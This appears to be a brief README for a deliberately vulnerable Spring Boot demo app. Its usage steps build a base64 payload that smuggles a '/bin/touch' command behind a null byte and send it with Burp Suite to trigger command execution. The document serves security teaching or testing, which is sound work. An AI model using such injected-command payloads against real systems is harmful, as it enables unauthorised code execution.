 # TBO App

## Usage
0. Start
`./mvnw spring-boot:run` 
1. Create payload
`echo -ne "something\x00/bin/touch ./file.txt" | base64`
2. Use Burp Suite to send the base64-encoded payload.
